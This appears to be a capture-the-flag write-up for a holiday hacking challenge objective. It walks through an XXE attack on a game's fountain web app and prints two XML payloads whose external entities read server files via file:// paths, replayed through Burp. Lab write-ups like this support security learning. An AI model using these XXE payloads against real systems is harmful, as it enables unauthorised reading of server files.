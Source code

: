 
# Objective 10: Glamtariel's Fountain
**Location: Web Ring / Fountain**  
**Hints (2x) from Hal Tandybuck**

This objective is about getting familiar with XXE attacks.

When dragging the four objects on the top right to the princess and the fountain, they respond with several hints in upper case.

After all four objects were dropped to both targets, the four items are replaced.
The same has to be done again until the four items are again replace with four rings (one red, one silver, two blue).

Based on the hints, that XXE has to applied here and the princess holds the ringlist in a very simple format, we are trying to read the ringlist using XXE from a guessed path (all images are pulled from `/static/images`). For this the prior POST requests to `/dropped` can be replayed in Burp and converted to XML (the "different language" the princess is referring to):
```
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
    <imgDrop>&xxe;</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```
The princess responds with a picture of the folder `x_phial_pholder_2022` containing two files, `bluering.txt` and `redring.txt`

![Ringlist](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/pholder-morethantopsupersecret63842.png)

In fact we are able to get access to the red ring file using the URL https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-1.txt

![Red Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/redring-supersupersecret928164.png)

On the inside of the red ring is written `goldring_to_be_deleted.txt`.

As Glamtariel says that she really would like to have a silver ring (which is with entity `img1` on screen), we switch our request over to:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE reqType [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>&xxe;</reqType>
    <who>princess</who>
</root>
```

Glamtariel responds back with the relative URL of the gold ring: `static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png`


![Gold Ring](https://github.com/joergschwarzwaelder/hhc2022/blob/main/Objective-10/goldring-morethansupertopsecret76394734.png)

**Achievement: Glamtariel's Fountain**
